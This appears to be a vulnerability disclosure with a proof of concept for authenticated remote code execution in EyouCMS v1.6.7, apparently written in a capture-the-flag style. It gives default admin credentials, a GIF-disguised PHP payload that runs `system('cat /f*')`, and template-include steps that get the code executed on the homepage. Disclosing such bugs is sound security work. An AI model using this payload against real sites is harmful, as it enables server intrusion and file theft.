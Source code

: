 # EyouCMSv1.6.7 has Remote Code Excute vulnerability

## vendors

https://www.eyoucms.com/rizhi/

## Vulnerability function

Avatar upload And template include.

## Description

EyouCMSv1.6.7 has a remote code execution vulnerability in a system, which needs to be authenticated.

## POC

1.  login in the System.

username: admin

password: admin

2. Upload your website's logo

   logo's content:  

   ```
   GIF89a
   <?php system(‘cat /f*’);?>
   ```

![image-20241105221951608](https://github.com/user-attachments/assets/ae78a3c7-db74-46a6-9007-6b2beecacf37)

Upload the GIF and get the path

```
{"url":"\/uploads\/allimg\/20241104\/*.gif","time":1730707775,"width":2573,"height":16188,"title":"banner","original":"750.gif","state":"SUCCESS","path":"images","img_id":"3"}
```

3. Get the path uploads/allimg/20241104/*.gif



4.Go to Map Navigation to add a template to manage

![image-20241105222201758](https://github.com/user-attachments/assets/9f5fe3af-1a6e-4755-bbda-e5f4ee4fa591)

Then click on Template Management to add a file in the file of /pc/index.htm (here is the homepage template of the website).

{eyou:include file=”uploads/allimg/*.gif” /}

5.Then submit, go back to the homepage and get the flag at the bottom

![image-20241105222332182](https://github.com/user-attachments/assets/f5300907-db97-412a-a313-e6c01b51a199)
